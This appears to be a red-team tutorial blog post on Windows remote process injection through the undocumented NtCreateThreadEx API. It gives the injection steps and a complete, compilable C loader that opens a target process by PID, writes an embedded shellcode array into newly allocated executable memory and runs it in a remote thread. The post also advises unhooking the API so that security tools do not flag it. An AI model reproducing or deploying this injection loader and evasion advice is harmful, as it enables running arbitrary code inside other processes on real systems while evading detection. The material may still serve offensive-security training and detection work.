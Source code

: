 ```yaml
---
layout: post
title: "7 days of Red- Day 6"
date: 2021-3-19 18:40:20 -0400
categories: Writeup

---
```




```


███████╗    ██████╗  █████╗ ██╗   ██╗███████╗     ██████╗ ███████╗    ██████╗ ███████╗██████╗ 
╚════██║    ██╔══██╗██╔══██╗╚██╗ ██╔╝██╔════╝    ██╔═══██╗██╔════╝    ██╔══██╗██╔════╝██╔══██╗
    ██╔╝    ██║  ██║███████║ ╚████╔╝ ███████╗    ██║   ██║█████╗      ██████╔╝█████╗  ██║  ██║
   ██╔╝     ██║  ██║██╔══██║  ╚██╔╝  ╚════██║    ██║   ██║██╔══╝      ██╔══██╗██╔══╝  ██║  ██║
   ██║      ██████╔╝██║  ██║   ██║   ███████║    ╚██████╔╝██║         ██║  ██║███████╗██████╔╝
   ╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝     ╚═════╝ ╚═╝         ╚═╝  ╚═╝╚══════╝╚═════╝ 
                                                                                              
██████╗  █████╗ ██╗   ██╗    ███████╗                                                         
██╔══██╗██╔══██╗╚██╗ ██╔╝    ██╔════╝                                                         
██║  ██║███████║ ╚████╔╝     ███████╗                                                         
██║  ██║██╔══██║  ╚██╔╝      ╚════██║                                                         
██████╔╝██║  ██║   ██║       ███████║                                                         
╚═════╝ ╚═╝  ╚═╝   ╚═╝       ╚══════╝                                                         
                                                                                              


```



## Remote Process Injection via NtCreateThreadEx

### Day 5

Remote Process Injection is a method for operators to migrate to active processes in order to blend in to the target and execute arbitrary code. There are plenty of ways to do this, however in this blogpost we'll be using **`NtCreateThreadEx`** in order to start a new thread in the virtual address space of the remote process.**`NtCreateThreadEx`** is a undocumented Native API that resides in nt.dll which is the library where the Native API live. The more well known Windows API **`CreateRemoteThread`** actually calls this function behind the scenes before it enters the kernel. Still in order to use this technique in engagements  you may need to unhook this function in order to not have it get flagged. 

### Steps:

   1.Open Remote Process - OpenProcess()

   2.Allocate Memory in the Remote Process with PAGE_EXECUTE_READWRITE permissions-VirtualAllocEx()

​      * Allocating memory with PAGE_EXECUTE_READWRITE is bad opsec

   3.Write shellcode over to the newly allocated memory space - WriteProcessMemory()

   4.Start a New Thread pointing to the allocated memory space -NtCreateThreadEx()

```c
#include <windows.h>
#include <winternl.h>

typedef NTSTATUS(NTAPI *NtCreateThreadEx)(HANDLE * pHandle, ACCESS_MASK DesiredAccess, void * pAttr, HANDLE hProc, void * pFunc, void * pArg, ULONG Flags, SIZE_T ZeroBits, SIZE_T StackSize, SIZE_T MaxStackSize, void * pAttrListOut);



int main(int argc,char **argv){
unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41\x51"
"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x3e\x48"
"\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72\x50\x3e\x48"
"\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x3e"
"\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48\x01\xd0\x3e\x8b\x80\x88"
"\x00\x00\x00\x48\x85\xc0\x74\x6f\x48\x01\xd0\x50\x3e\x8b\x48"
"\x18\x3e\x44\x8b\x40\x20\x49\x01\xd0\xe3\x5c\x48\xff\xc9\x3e"
"\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41"
"\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24"
"\x08\x45\x39\xd1\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x3e\x41\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e"
"\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41"
"\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7\xc1"
"\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e\x4c\x8d"
"\x85\x08\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5\x53\x68\x65"
"\x6c\x6c\x63\x6f\x64\x65\x00\x53\x75\x63\x63\x65\x73\x73\x00";


HANDLE hthread=NULL;
DWORD pid = atoi(argv[1]);
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS,FALSE,pid);
VOID *payload= VirtualAllocEx(hProc,NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc,payload,shellcode,sizeof(shellcode),NULL);
NtCreateThreadEx pNtCreateThreadEx = (NtCreateThreadEx)GetProcAddress(LoadLibrary("ntdll.dll"),"NtCreateThreadEx");
pNtCreateThreadEx(&hthread,GENERIC_ALL,NULL,hProc,(LPTHREAD_START_ROUTINE)payload,NULL,FALSE,0,0,0,NULL);
return 0;
}

```

